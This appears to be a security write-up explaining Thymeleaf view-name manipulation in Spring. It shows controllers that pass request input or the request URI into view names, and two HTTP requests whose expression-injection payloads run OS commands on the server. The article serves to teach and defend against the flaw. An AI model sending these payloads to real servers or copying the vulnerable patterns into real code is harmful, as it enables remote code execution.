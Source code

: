 This article has shown how dangerous unrestricted manipulation of view names can be in the Spring Framework. Before doing that, let's look at a simple Spring application that uses Thymeleaf as its templating engine.

```java
@Controller
public class HelloController {

    @GetMapping("/")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
}
```

This method will be called for every HTTP GET request for the root url `/`. It has no parameters and returns the static string `welcome`. Spring interprets `welcome` as the name of the View and tries to find the `resources/templates/welcome.html` file located in the application resources. If Spring finds it, renders a view from the template file and returns to the user.

# Untrusted Thymeleaf view name

> Whenever untrusted data comes to a view name returned by the controller, it can lead to expression language injection and hence RCE.

If using the Thymeleaf view engine (the most popular for Spring), the template might look like this:

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

Thymeleaf engine support [file layouts](https://www.thymeleaf.org/doc/articles/layouts.html). For example, you can specify a fragment in the template by using `<div th:fragment="main">` and then request only this fragment from the view:

```http
@GetMapping("/main")
public String fragment() {
    return "welcome :: main";
}
```

Thymeleaf is intelligent enough to return only the `main` div from the welcome view, not the whole document.

Sometimes a situation arises when a template name or fragment is concatenated with untrusted data. For example, with a request parameter:

```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    // potential path traversal, but limited to the 'templates' folder
    return "user/" + lang + "/welcome";
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section;
}
```

Before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:

```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```

Which leads to the possibility of exploitation of the expression language injection.

```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x HTTP/1.1
Host: vulnerable-website.com
```

![](img/path-eli-exploit.png)

This exploit uses [expression preprocessing](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/). In order for the expression to be executed by the Thymeleaf, no matter what prefixes or suffixes are, it is necessary to surround it with `__${` and `}__::.x`.

# Untrusted implicit view name

Controllers do not always return strings that explicitly tell Spring what view name to use. As described in the [documentation](https://docs.spring.io/spring-framework/docs/current/reference/html/web.html#mvc-ann-return-types), for some return types such as `void`, `java.util.Map` or `org.springframework.ui.Model`, the view name is implicitly determined through a `RequestToViewNameTranslator`.

This means that at first glance such a controller may seem completely innocent, it does almost nothing, but since Spring does not know which view name to use, it **takes it from the request URI**.

```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

Specifically, `DefaultRequestToViewNameTranslator` does the following:

```java
/**
 * Translates the request URI of the incoming {@link HttpServletRequest}
 * into the view name based on the configured parameters.
 * @see org.springframework.web.util.UrlPathHelper#getLookupPathForRequest
 * @see #transformPath
 */
@Override
public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request, HandlerMapping.LOOKUP_PATH);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}
```

Thus, it becomes vulnerable because the user controlled data (URI) comes in directly to view name and is resolved as an expression:

```http
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
Host: vulnerable-website.com
```

# References

- [Spring View Manipulation Vulnerability](https://github.com/veracode-research/spring-view-manipulation/)